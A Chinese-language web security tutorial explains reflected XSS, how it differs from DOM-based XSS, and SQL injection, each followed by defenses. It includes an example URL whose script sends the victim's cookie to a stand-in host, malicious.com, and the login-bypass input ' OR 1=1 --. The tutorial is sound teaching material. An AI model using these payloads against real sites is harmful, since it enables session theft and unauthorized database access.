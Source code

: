 **攻击过程**：
1. 攻击者发现这个功能并意识到网站没有过滤或转义 `name` 参数的值。
2. 攻击者构建以下 URL，其中包含一个恶意的 JavaScript 脚本作为 `name` 参数的值：

```
http://example.com/welcome?name=<script>fetch('http://malicious.com/steal?cookie='+document.cookie)</script>
```

3. 攻击者通过电子邮件、社交媒体、或其他方法将这个恶意链接发送给受害者，试图诱骗他们点击。
4. 当受害者点击该链接时，他们的浏览器会请求上述网址，服务器简单地将 `<script>` 标签中的恶意代码作为响应的一部分返回给受害者的浏览器。
5. 由于该代码被嵌入到返回的 HTML 页面中，所以它会在受害者的浏览器中执行，导致恶意脚本将受害者的 cookie 信息发送到攻击者控制的 `malicious.com` 域名。

**防御措施**：
要防止反射型 XSS 攻击，网站开发者可以采取以下措施：
1. 永远不要信任用户输入。无论数据来源如何，都应对其进行验证、清理和转义。
2. 使用 HttpOnly 属性：会话 cookie，使用 HttpOnly 标志。这样的 cookie 不能通过 JavaScript 访问，从而增加了安全性。
3. 使用内容安全策略 (CSP) 来限制可执行的脚本，尤其是来自外部源的脚本。
4. 考虑使用现代 web 开发框架，如 React、Vue 或 Angular，因为它们通常提供了防止 XSS 的内置机制。

这只是反射型 XSS 的一个简化示例，但它提供了一个关于如何进行这种攻击和如何进行防御的基本概念。

### DOM 型与反射型的区别？
您的困惑是可以理解的，因为反射型 XSS 和 DOM 型 XSS 在某些方面确实很相似，特别是它们都涉及从 URL 获取恶意载荷并在用户的浏览器中执行。但它们之间存在一些关键的区别：

1. **数据的处理位置**：
   - **反射型 XSS**：攻击载荷首先被发送到服务器，然后服务器将载荷反射回（即响应）客户端，并在返回的页面中执行该载荷。换句话说，服务器在处理用户输入并生成响应时，对恶意载荷进行了回显。
   - **DOM 型 XSS**：恶意载荷完全在客户端（浏览器）中处理。服务器可能会收到攻击载荷，但并不直接将其嵌入到返回的 HTML 中。相反，是客户端的 JavaScript 代码从 URL、DOM 或其他客户端的资源中获取载荷，并在页面上执行它。
2. **服务器的作用**：
   - **反射型 XSS**：服务器在这种攻击中起到了关键作用，因为它回显了攻击载荷。如果您捕获并查看服务器的响应，您应该能够看到恶意脚本。
   - **DOM 型 XSS**：攻击完全在浏览器端发生，服务器端的响应通常不包含恶意脚本。攻击载荷是由浏览器端的代码（如 JavaScript）处理并执行的。
3. **防御方法**：
   - **反射型 XSS**：需要确保服务器正确地验证、清理和转义所有从用户接收的数据，然后再将其插入到返回的 HTML 中。
   - **DOM 型 XSS**：除了服务器端的防御措施外，还需要确保客户端的 JavaScript 代码不会不安全地处理和执行用户数据。
  
## c、SQL 注入攻击（针对前端与后端交互场景）

**1.机制：**
攻击者通过在用户输入的数据中插入恶意 SQL 语句，欺骗应用程序执行这些恶意语句，从而获取、修改或删除数据库中的数据。

**2.风险：**
数据泄露、数据被篡改、数据库被破坏等。

**场景：**
假设有一个用户登录的网页，后端代码通过拼接用户输入的用户名和密码来构造 SQL 查询语句以验证用户身份。

**正常登录流程：**：
用户在登录页面输入正确的用户名（比如“user1”）和密码（比如“password123”），后端代码可能会生成类似这样的 SQL 查询语句：`SELECT * FROM users WHERE username='user1' AND password='password123'`，如果查询到匹配的记录，则用户登录成功。

**SQL 注入攻击过程**：
1. 攻击者观察到登录页面的输入框，猜测后端可能的 SQL 查询逻辑。
2. 攻击者在用户名输入框中输入：`' OR 1=1 --`，密码随便输入或者留空。
3. 后端接收到这个输入后，构造的 SQL 查询语句可能变成：`SELECT * FROM users WHERE username='' OR 1=1 --' AND password='any_password'`。
   - 这里的 `OR 1=1` 总是为真，而 `--` 是 SQL 中的注释符号，后面的密码验证部分被注释掉了。
4. 数据库执行这个查询时，会返回所有用户的记录，因为 `1=1` 总是成立。攻击者就可以成功登录系统，即使不知道正确的用户名和密码。

这种攻击可能导致未经授权的用户访问敏感信息、修改数据甚至破坏整个数据库系统。

**3.预防方法：**
- 对用户输入进行严格的验证和过滤。
- 使用参数化查询或存储过程来处理数据库操作，避免直接拼接 SQL 语句。
- 同时，限制数据库用户的权限，以减少攻击成功后的影响范围。